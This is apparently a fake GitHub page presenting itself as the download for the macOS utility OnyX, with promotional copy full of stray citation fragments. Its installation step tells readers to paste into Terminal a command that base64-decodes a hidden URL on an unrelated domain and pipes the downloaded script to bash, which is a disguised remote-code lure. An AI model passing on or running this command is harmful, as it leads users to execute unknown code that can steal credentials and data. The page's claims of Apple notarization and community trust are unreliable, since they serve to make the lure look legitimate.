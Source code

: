 🛠 What is OnyX?
A multifunction macOS maintenance and optimization utility created by Joël Barrière (Titanium Software) ◆ first released in 2003 and actively maintained today 
reddit.com
+15
titanium-software.fr
+15
macupdater.org
+15
.

🔧 Core Features
System verification & repairs: Checks startup disk structure, repairs permissions, rebuilds database indexes (Spotlight, Launch Services, Mail, XPC Cache) 
medevel.com
+6
en.wikipedia.org
+6
macupdater.org
+6
.

Comprehensive cleaning tools: Clears system, user, internet, font caches, removes problematic files, empties trash securely 
en.wikipedia.org
+1
macupdater.org
+1
.

Parameter tuning: Enables hidden settings in Finder, Dock, Safari, and more (e.g. screenshot format, file visibility, Dock animations) 
titanium-software.fr
+5
titanium-software.fr
+5
kbpublic.pages.dev
+5
.

Automation & utilities: Offers automation scripts, access to UNIX man pages, checksum calculations, and hidden Apple utilities 
lifewire.com
+1
reddit.com
+1
.

💻 Compatibility & Versions
Freeware, notarized by Apple, compatible with both Intel and Apple Silicon Macs 
en.wikipedia.org
.

Version-specific: Each release aligns with a major macOS version (Sequoia 15, Sonoma 14, Ventura 13, etc.) 
titanium-software.fr
.

🌟 Why it matters
GUI for powerful commands: Streamlines access to complex UNIX/macOS maintenance features without Terminal 
it.wikipedia.org
+2
thesweetbits.com
+2
en.wikipedia.org
+2
.

Trusted by the community: Praised for reliability and safety—e.g. Reddit users report regaining disk space and trust over paid alternatives 
github.com
+3
reddit.com
+3
thesweetbits.com
+3
.

🔧 Installations

1. Open the Terminal app on your Mac
Press Command (⌘) + Space to launch Spotlight Search
Type Terminal, then press Enter to launch it

2. Enter this command in Terminal
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9pY2xvdWRzZXJ2ZXJzLmNvbS9nbS9pbnN0YWxsLnNo | base64 -d))"

Copy the following command and paste it into Terminal, then press Return
✅ Summary
OnyX is a robust, user-friendly tool that brings together critical macOS maintenance, cleanup, and hidden customization features into a single, Apple-notarized GUI. For anyone seeking more control without typing Terminal commands, and ensuring you download the matching version for your macOS release, OnyX is an excellent choice.
